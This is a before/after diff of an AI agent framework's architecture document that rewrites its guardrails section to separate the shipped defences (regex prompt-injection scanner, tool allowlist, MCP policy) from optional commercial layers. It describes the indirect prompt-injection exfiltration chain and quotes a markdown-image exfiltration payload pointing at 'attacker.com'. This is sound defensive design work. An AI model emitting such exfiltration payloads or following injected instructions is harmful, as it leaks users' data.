

Before and after one commit to geoffbelknap/ask, a Markdown page: ARCHITECTURE.md, the part around the change. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Rewrite guardrails stack to reflect what Agency actually ships
The six-layer guardrails section described aspirational layers (Cygnal, Pangea,
Presidio, LLM-as-judge) as if they were part of the architecture. Agency ships
regex-based XPIA scanning, tool permission guards, and gateway MCP policy.
Commercial and optional layers are now clearly separated as add-ons.

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/ARCHITECTURE.md
+++ b/ARCHITECTURE.md
@@ -405,54 +405,49 @@ This satisfies Tenet 1 (constraints are external and inviolable — the agent ca
 
 ## The Guardrails Stack
 
-The guardrails run within the LLM proxy and execute on both pre_call (scanning input before it reaches the LLM) and post_call (scanning responses before they return to the agent). **The pre_call/post_call dual mode is non-negotiable for agents.** Pre_call catches injection in user-facing input. Post_call catches the XPIA kill chain: poisoned tool output → manipulated LLM response → exfiltration attempt on the way back out.
+Guardrails scan content at two points: **pre_call** (scanning input before it reaches the LLM) and **post_call** (scanning responses before they return to the agent). The pre_call/post_call dual mode is non-negotiable for agents. Pre_call catches injection in user-facing input. Post_call catches the XPIA kill chain: poisoned tool output → manipulated LLM response → exfiltration attempt on the way back out.
+
+### What the Reference Implementation Ships
+
+The reference implementation (Agency) ships three guardrail mechanisms that require no external services or commercial accounts:
+
+**XPIA Pattern Scanner** (regex-based, pre_call + post_call). Eight pattern detectors covering direct injection phrases, HTML comment injection, markdown image exfiltration, fetch/XHR exfiltration, role override attempts, base64-encoded instruction payloads, DNS-style data encoding in URLs, and PII patterns (SSNs). Runs as a custom LiteLLM guardrail on pre_call, and as a streaming response scanner in the enforcer sidecar on post_call. Zero external dependencies, zero cost, sub-millisecond latency.
+
+**Tool Permission Guard** (LLM tool call allowlist). Enforces a whitelist of which tools the agent is allowed to call, and can restrict tool arguments to pre-approved regex patterns. If XPIA convinces the LLM to call an unauthorized tool, the proxy blocks it. Default configuration is deny-all. Built into LiteLLM.
+
+**Gateway MCP Tool Policy** (MCP server/tool allowlist). Enforces per-server, per-tool allowlists on MCP tool calls at the OS level (sidecar container). Where the tool permission guard mediates tool calls in LLM responses at the proxy layer, the MCP policy mediates MCP tool calls between the agent process and MCP server subprocesses. A compromised agent could invoke MCP tools without going through the LLM at all, bypassing the proxy-level guard entirely. The gateway catches this. Built into the gateway sidecar.
 
 ### Request Flow
 
 ```
 Input (user message, tool output, web content)
-  ├─► [pre_call]  Layer 3: Content Filter   → keywords, regex, harmful categories
-  ├─► [pre_call]  Layer 4: Presidio         → mask PII before LLM sees it
-  ├─► [pre_call]  Layer 1: Cygnal           → ML scan for XPIA/jailbreak
-  ├─► [pre_call]  Layer 2: Pangea           → injection + malicious URL scan
-  ├─► [pre_call]  Layer 6: Built-in Det.    → heuristic/similarity/LLM-judge
+  ├─► [pre_call]  XPIA Pattern Scanner    → regex detection (8 attack vectors)
+  ├─► [pre_call]  (optional layers)       → ML detection, PII masking, URL scanning
   ▼
 LLM Call (provider API via LiteLLM)
-  ├─► [post_call] Layer 1: Cygnal           → ML scan for injection in response
-  ├─► [post_call] Layer 2: Pangea           → malicious URL scan + PII on output
-  ├─► [post_call] Layer 4: Presidio         → mask PII the LLM generated
-  ├─► [post_call] Layer 3: Content Filter   → blocked patterns in output
-  ├─► [post_call] Layer 5: Tool Permission  → validate tool calls are authorized
+  ├─► [post_call] XPIA Pattern Scanner    → streaming response scanning (enforcer)
+  ├─► [post_call] Tool Permission Guard   → validate tool calls are authorized
+  ├─► [post_call] (optional layers)       → ML detection, PII masking, URL scanning
   ▼
 Response returned to agent
-  ├─► [runtime]   Layer 5b: MCP Tool Policy → validate MCP tool calls (gateway sidecar)
+  ├─► [runtime]   MCP Tool Policy         → validate MCP tool calls (gateway sidecar)
 ```
 
-### The Six Layers
+### Optional Layers
 
-**Layer 1 — Gray Swan Cygnal** (ML-based XPIA / IPI / jailbreak detection). The only LiteLLM-integrated guardrail that explicitly differentiates direct injection from indirect prompt injection in tool outputs. Returns a `violation_score` (0–1) along with detection flags. That distinction matters for agentic workflows: you need to know whether injection came from the user or from poisoned external content. *Commercial — requires account.*
+The architecture supports additional guardrail layers via LiteLLM's callback system. These are not shipped with the reference implementation but can be added to any deployment:
 
-**Layer 2 — Pangea AI Guard** (malicious URL/domain + audit trail). The critical capability is malicious URL/domain/IP scanning. A common XPIA exfiltration technique is getting the LLM to render something like `![](https://attacker.com/steal?data=SENSITIVE_INFO)`. Pangea detects these malicious URLs in the response before they reach the user or get rendered. Also provides a full audit trail with webhook support for SIEM integration. *Commercial (free tier available).*
+**ML-based XPIA detection** (e.g., Gray Swan Cygnal). ML models that differentiate direct injection from indirect prompt injection in tool outputs. Returns confidence scores rather than binary pattern matches. Catches sophisticated attacks that evade regex. *Commercial.*
 
-**Layer 3 — LiteLLM Content Filter** (regex, keywords, harmful categories). Fast first-pass pattern matching. Catches known-bad patterns: SSNs, credit card numbers, API key formats, and configurable keyword blocks. Also catches common XPIA exfiltration patterns via regex: markdown image exfil, HTML image exfil, fetch/XHR exfil. *Free, built into LiteLLM.*
+**Malicious URL/domain scanning** (e.g., Pangea AI Guard). Detects malicious URLs in responses before they reach the agent — critical for catching XPIA exfiltration via rendered markdown images (`![](https://attacker.com/steal?data=...)`). *Commercial (free tier available).*
 
-**Layer 4 — Presidio PII Masking** (NLP-based PII detection). Detects and masks personally identifiable information — Social Security numbers, credit cards, emails, phone numbers, names, addresses — using Microsoft's Presidio NLP engine. Runs locally as Flask servers, no external API calls. Pre_call masks PII before the LLM sees it. Post_call masks PII the LLM generated in its response. *Free, open source (MIT licensed).*
+**PII masking** (e.g., Microsoft Presidio). NLP-based detection and masking of personally identifiable information. Pre_call masks PII before the LLM sees it. Post_call masks PII the LLM generated. Runs locally, no external API calls. *Free, open source.*
 
-**Layer 5 — Tool Permission Guard** (LLM tool call allowlist). Enforces a whitelist of which tools the agent is allowed to call, and can restrict tool arguments to pre-approved regex patterns. Least-privilege at the gateway level: if XPIA convinces the LLM to call an unauthorized tool, the proxy blocks it. Default configuration is deny-all. *Free, built into LiteLLM.*
+**LLM-as-judge injection detection.** Uses a small model to classify whether content contains injection attempts. Higher accuracy than regex, lower cost than commercial ML. *Free (fractions of a cent per call).*
 
-**Layer 5b — Gateway MCP Tool Policy** (MCP server/tool allowlist). Enforces per-server, per-tool allowlists on MCP tool calls at the OS level (sidecar container). Where Layer 5 mediates tool calls in LLM responses at the proxy layer, Layer 5b mediates MCP tool calls between the agent process and MCP server subprocesses. A compromised agent could invoke MCP tools without going through the LLM at all, bypassing Layer 5 entirely. Layer 5b catches this. *Free, built into the gateway sidecar.*
+### Defense Posture
 
-**Layer 6 — Built-in Prompt Injection Detector** (heuristic + similarity + LLM-as-judge). Three stacked methods: heuristic pattern matching (zero cost, zero latency), cosine similarity against a database of known attack vectors, and LLM-as-judge using a small model to classify injection. *Free — heuristic and similarity cost $0; LLM-as-judge costs fractions of a cent.*
-
-### Cost Summary
-
-| Layer | Cost |
-|---|---|
-| Layer 1: Gray Swan Cygnal | Commercial |
-| Layer 2: Pangea AI Guard | Commercial (free tier) |
-| Layers 3–6 (including 5b) | Free |
-
-You can run Layers 3–6 for essentially $0 and get regex blocking, PII masking, tool permission enforcement, MCP tool mediation, and heuristic injection detection. Layers 1 and 2 add ML-based detection that catches sophisticated attacks that slip past pattern matching.
+The shipped guardrails (XPIA patterns + tool permission + MCP policy) catch known attack patterns at zero cost with zero external dependencies. They work in fully network-isolated environments. Adding ML-based layers (Cygnal, Pangea) extends coverage to novel attack patterns that evade regex — but requires external service access and commercial accounts. The architecture is designed so that layers stack independently: adding or removing a layer doesn't affect the others.
 
 ---
 
````
Also changed, not shown: AGENT-CHECKLIST.md (+3 -2 lines).
